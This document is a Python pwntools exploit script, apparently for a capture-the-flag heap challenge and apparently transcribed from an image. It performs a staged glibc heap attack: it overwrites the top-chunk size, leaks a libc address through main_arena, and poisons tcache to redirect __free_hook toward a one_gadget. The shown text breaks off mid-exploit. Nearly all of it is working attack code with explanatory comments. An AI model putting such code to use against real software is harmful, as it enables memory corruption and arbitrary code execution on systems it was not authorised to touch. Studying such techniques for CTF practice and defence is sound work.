 ```python
    io.sendlineafter(MENU_PROMPT, str(2))
    io.sendlineafter(INDEX_PROMPT, str(index))
    io.sendlineafter(DATA_PROMPT, data)


def view(index: int) -> bytes:
    io.sendlineafter(MENU_PROMPT, str(3))
    io.sendlineafter(INDEX_PROMPT, str(index))
    io.recvuntil(DATA_MARKER)

    return io.recvline()


def extract_address(leak: bytes) -> int:
    return u64(leak[:6].ljust(8, b"\x00"))


# Stage 1: Trigger _int_free to link free space into unsortedbin chunk

chunk_A = create(0x18)
edit(chunk_A, flat({0x18: p64(0xD51)}))
chunk_B = create(0xD48)

# Stage 2: Leak libc address

edit(chunk_A, cyclic(0x20))
main_arena_96 = extract_address(view(chunk_A)[0x20:])
libc.address = main_arena_96 - (libc.sym.main_arena + 96)

log.success(f"libc @ {hex(libc.address)}")

edit(chunk_A, flat({0x18: p64(0xD31)}))
chunk_C = create(0xD18)

# Stage 3: Trigger _int_free to link free space into tcachebins

edit(chunk_B, flat({0xD48: p64(0x2B1)}))
chunk_D = create(0x2A8)  # Link free space (0x290) into tcachebins

# Stage 4: Trigger _int_free to link another chunk into 0x290 tcachebins

# Current free space is 0x21D51
# So if we want to link another 0x290 sized chunk, we have to shrink
# free space by: 0xD50 - (0x290 + 0x20) = 0xAA0
# Note: 0x20 is for the 2 fencepost chunks placed by sysmalloc
# Free space left will be 0x212B1

chunk_E = create(0xA98)  # Shrink free space to (0x290)
edit(chunk_E, flat({0xA98: p64(0x2B1)}))

chunk_F = create(0x2A8)  # Link free space (0x290) into tcachebins

# At this point, we have to set up the following:
# __free_hook -> one_gadget
# __malloc_hook -> free (this will be used to trigger __free_hook)
#
# Otherwise, one_gadget will segfault when rsp dereferenced during:
# movaps xmmword ptr [rsp + 0x50], xmm0

# Stage 5: Perform tcache poisoning (__free_hook -> one_gadget)

edit(chunk_E, flat({0xA98: p64(0x291)}, p64(libc.sym.__free_hook)))
chunk_G = create(0x288)
```